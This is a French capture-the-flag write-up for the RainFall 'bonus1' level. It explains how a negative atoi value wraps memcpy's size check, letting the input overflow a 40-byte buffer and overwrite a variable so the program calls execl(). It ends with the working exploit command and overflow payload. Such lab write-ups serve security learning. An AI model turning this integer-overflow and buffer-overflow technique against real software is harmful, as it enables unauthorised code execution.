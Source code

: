 #bonus1

$ ./bonus1
Segmentation fault (core dumped)
$ ./bonus1 test
$ ./bonus1 test test

On a bonus1 qui segfault sans argument.

Après analyse avec gdb du main, on observe un memcpy qui est vulnerable au buffer overflow.

Le programme prend deux arguments:

    - le premier est converti avec atoi et stocker dans nb. Pour accéder au memcpy, il faut que nb soit inférieur ou égale à 9.
    - le second est copié dans un buffer de 40 en dessous du retour d'atoi. Ensuite nb est comparé à 0x574f4c46, s'il est égal, le programme appelle execl().
    Le problème est que memcpy copie seulement 4*nb de argv[2]. Donc le maximun est 36 car 9*4 = 36. Donc au lieu d'utiliser un nombre positif, on peut utiliser un nombre négatif.


                                                   32 bits
                                                      |
int_min     = 0000 0000 0000 0000 0000 0000 0000 0000 | 1000 0000 0000 0000 0000 0000 0000 0001 = -2147483647
int_min * 4 = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0000 0100 = 4


random_int   = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0010 1100 = 44 (-8589934548)
random_int/4 = -2147483637


bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')